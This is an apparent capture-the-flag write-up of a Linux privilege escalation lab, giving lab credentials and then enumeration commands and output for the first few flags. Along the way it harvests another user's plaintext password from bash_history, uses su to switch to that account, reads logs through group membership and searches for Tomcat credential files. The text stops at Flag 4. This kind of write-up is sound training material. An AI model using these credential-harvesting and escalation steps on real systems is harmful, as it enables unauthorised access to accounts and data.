 # Linux Local Privilege Escalation - Skills Assessment

Username
```python
htb-student
```

Password
```python
Academy_LLPE!
```

IP
```python
10.129.30.244
```

SSH
```python
ssh htb-student@10.129.85.233
```


## TOC
- []()
- []()
- []()
- []()
- []()
- []()
- []()
- []()

## Enumeration

##### Enumerating the `/etc/passwd` file, there are three additional users: mrb3n,tomact, barry

```python
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mrb3n:x:1000:1000:Ben:/home/mrb3n:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:112:118:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:997:997:Apache Tomcat:/:/bin/bash
barry:x:1001:1001::/home/barry:/bin/bash
htb-student:x:1002:1002::/home/htb-student:/bin/bash
```

##### Finding all writable files.
```python
htb-student@nix03:~$ find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
dev
home
proc
run
snap
sys
tmp
usr
var
```

##### Flag1

```python
LLPE{d0n_ov3rl00k_h1dden_f1les!}
```

```python
htb-student@nix03:~$ ls -la
total 32
drwxr-xr-x 4 htb-student htb-student 4096 Sep  6  2020 .
drwxr-xr-x 5 root        root        4096 Sep  6  2020 ..
-rw------- 1 htb-student htb-student   57 Sep  6  2020 .bash_history
-rw-r--r-- 1 htb-student htb-student  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 htb-student htb-student 3771 Feb 25  2020 .bashrc
drwx------ 2 htb-student htb-student 4096 Sep  6  2020 .cache
drwxr-xr-x 2 root        root        4096 Sep  6  2020 .config
-rw-r--r-- 1 htb-student htb-student  807 Feb 25  2020 .profile
htb-student@nix03:~$ 
htb-student@nix03:~$ cd .config/
htb-student@nix03:~/.config$ 
-r--r-- 1 htb-student htb-student  807 Feb 25  2020 .profile
```

```python
htb-student@nix03:~/.config$ ls -la
total 12
drwxr-xr-x 2 root        root        4096 Sep  6  2020 .
drwxr-xr-x 4 htb-student htb-student 4096 Sep  6  2020 ..
-rw-r--r-- 1 htb-student www-data      33 Sep  6  2020 .flag1.txt
htb-student@nix03:~/.config$ cat .flag1.txt
LLPE{d0n_ov3rl00k_h1dden_f1les!}
```

##### Flag 2

```python
LLPE{ch3ck_th0se_cmd_l1nes!}
```

Flag2 is in the home directory of the user `barry` but I can't read it
```python
htb-student@nix03:/home/barry$ ls -la
total 40
drwxr-xr-x 5 barry barry 4096 Sep  5  2020 .
drwxr-xr-x 5 root  root  4096 Sep  6  2020 ..
-rwxr-xr-x 1 barry barry  360 Sep  6  2020 .bash_history
-rw-r--r-- 1 barry barry  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 barry barry 3771 Feb 25  2020 .bashrc
drwx------ 2 barry barry 4096 Sep  5  2020 .cache
-rwx------ 1 barry barry   29 Sep  5  2020 flag2.txt
drwxrwxr-x 3 barry barry 4096 Sep  5  2020 .local
-rw-r--r-- 1 barry barry  807 Feb 25  2020 .profile
drwx------ 2 barry barry 4096 Sep  5  2020 .ssh
```

Looking at the bash_history, `barry` ssh'd into `barry_adm@dmz1.inlanefreight.local` with the below password
```python
i_l0ve_s3cur1ty!
```

su'd into barry with the above password and gained #flag2
```python
 su barry
Password: 
barry@nix03:~$ ls -la
total 40
drwxr-xr-x 5 barry barry 4096 Sep  5  2020 .
drwxr-xr-x 5 root  root  4096 Sep  6  2020 ..
-rwxr-xr-x 1 barry barry  360 Sep  6  2020 .bash_history
-rw-r--r-- 1 barry barry  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 barry barry 3771 Feb 25  2020 .bashrc
drwx------ 2 barry barry 4096 Sep  5  2020 .cache
-rwx------ 1 barry barry   29 Sep  5  2020 flag2.txt
drwxrwxr-x 3 barry barry 4096 Sep  5  2020 .local
-rw-r--r-- 1 barry barry  807 Feb 25  2020 .profile
drwx------ 2 barry barry 4096 Sep  5  2020 .ssh
barry@nix03:~$ cat flag2.txt
LLPE{ch3ck_th0se_cmd_l1nes!}
```

##### Flag 3

```
LLPE{h3y_l00k_a_fl@g!}
```

Looking at the barry's bash_history, he took a look at the /var/log directory. I can read it because barry is part of the adm group
```python
-rw-r--r--   1 root      root            443077 Sep  5  2020 dpkg.log.1
-rw-r--r--   1 root      root             32096 Sep  6  2020 faillog
-rw-r-----   1 root      adm                 23 Sep  5  2020 flag3.txt
```

```python
barry@nix03:/var/log$ cat flag3.txt
LLPE{h3y_l00k_a_fl@g!}
barry@nix03:/var/log$ 
```

##### Flag 4

Monitoring external connections via nmap and netstat

NMAP
```python
└─$ nmap -sV -sC -p 80,443,22,1433,3689,8080 10.129.118.66
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 10:44 EDT
Nmap scan report for 10.129.118.66
Host is up (0.10s latency).

PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:e8:7a:9d:bb:13:bb:94:db:5e:91:0b:46:e0:0a:6f (RSA)
|   256 b2:75:97:8c:4b:01:bc:5b:20:46:29:73:61:40:42:1e (ECDSA)
|_  256 33:89:87:4a:65:8d:f9:85:e1:f2:06:ab:71:fb:cb:23 (ED25519)
80/tcp   open   http       Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Inlane Freight
443/tcp  closed https
1433/tcp closed ms-sql-s
3689/tcp closed rendezvous
8080/tcp open   http       Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

NETSTAT
```python
netstat -antup
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0    396 10.129.85.233:22        10.10.14.44:41442       ESTABLISHED -                   
tcp        0      1 10.129.85.233:47810     1.1.1.1:53              SYN_SENT    -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::33060                :::*                    LISTEN      -                   
tcp6       0      0 10.129.85.233:8080      10.10.14.44:50826       FIN_WAIT2   -                   
udp        0      0 127.0.0.1:58236         127.0.0.53:53           ESTABLISHED -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.129.85.233:68        0.0.0.0:*
```

Webpage
- 10.129.85.233:8080 requests a username and password. From the output of the /etc/passwd file they're are three other users: mrb3n, barry, tomcat.
- barry didn't work, nor did mrb3n
- No home folder for tomcat...because it's the default user for the web server

Searching for tomcat files, I found two files: tomcat-users.xml and tomcat-users.xml.bak
```python
htb-student@nix03:/home$ find / -type f -name "*tomcat*" 2>/dev/null
/etc/logrotate.d/tomcat9
/etc/tomcat9/tomcat-users.xml
/etc/tomcat9/tomcat-users.xml.bak
```

